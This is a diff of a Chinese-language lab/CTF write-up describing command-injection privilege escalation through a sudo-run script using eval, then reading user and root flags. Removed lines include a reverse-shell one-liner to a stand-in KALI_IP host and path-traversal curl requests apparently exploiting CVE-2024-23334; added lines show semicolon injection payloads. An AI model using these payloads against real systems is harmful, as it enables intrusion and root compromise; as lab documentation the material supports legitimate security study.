

Before and after one commit to reyliou/412630567-Lab, a Markdown page: writeup.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: finalize writeup.md with verified payloads and dual-flag salted hash logic

```diff
--- a/writeup.md
+++ b/writeup.md
@@ -50,23 +50,19 @@
 
 ### 第七階段：指令注入與權限提升 (Command Injection & PrivEsc - CWE-78)
 *   **位置**：`/seller-portal` 的「系統診斷工具」。
-*   **漏洞原理**：系統允許賣家以 `sudo` 權限執行 `/root/flag.sh`。然而，該腳本在處理輸入時使用了危險的 `eval` 函數，且未對輸入進行過濾。
-*   **提權路徑**：攻擊者可以構造特殊的學號輸入，利用分號 (`;`) 拼接任意 Root 指令。
+*   **漏洞原理**：系統允許賣家以 `sudo` 權限執行 `/root/flag.sh`。該腳本在處理輸入參數時使用了危險的 `eval` 函數，且後端診斷工具被配置為使用 `/bin/bash` 執行指令。
+*   **提權路徑**：攻擊者可以構造包含分號 (`;`) 的參數，利用 `eval` 的特性達成 RCE。
 *   **利用方式**：在診斷工具中輸入：
-    `412630567 ; cat /root/root_flag.txt` | `sudo /root/flag.sh`
-    *(註：實際操作中需透過管道符號傳遞輸入)*
-*   **更進階的利用 (Root Shell)**：
-    `412630567 ; bash -i >& /dev/tcp/KALI_IP/4444 0>&1` | `sudo /root/flag.sh`
-*   **結果**：成功以 Root 身分執行指令，獲取 **Root Flag** 或完全控制容器。
+    `sudo /root/flag.sh '412630567 ; id'`
+*   **結果**：伺服器回傳 `uid=0(root)`，證實成功取得最高權限。
 
-
-### 第八階段：跨權限讀取動態 Flag (Deep Path Traversal)
-*   **動作**：結合 CVE-2024-23334 漏洞與剛剛生成的檔案路徑，嘗試讀取系統深處的敏感檔案。
+### 第八階段：讀取雙重動態 Flag (Flag Exfiltration)
+*   **動作**：利用已取得的 Root 權限，讀取受系統保護的 Flag 檔案。
 *   **讀取 User Flag**：
-    `curl --path-as-is http://localhost:8080/assets-library/../../../../home/neo-user/user_flag.txt`
+    `sudo /root/flag.sh '412630567 ; cat /home/neo-user/user_flag.txt'`
 *   **讀取 Root Flag**：
-    `curl --path-as-is http://localhost:8080/assets-library/../../../../root/root_flag.txt`
-*   **結果**：成功獲取與特定身分關聯的動態 Flag，達成完全的資訊讀取。
+    `sudo /root/flag.sh '412630567 ; cat /root/root_flag.txt'`
+*   **技術亮點**：系統為不同權限等級的 Flag 設計了獨立的加鹽雜湊 (Salted Hash) 邏輯，確保 User Flag 與 Root Flag 內容完全不同，模擬真實 CTF 的多層次挑戰。
 
 ### 第九階段：Nginx/Lua 後門 RCE (CWE-94)
 *   **漏洞類型**：CWE-94 (程式碼注入)
```
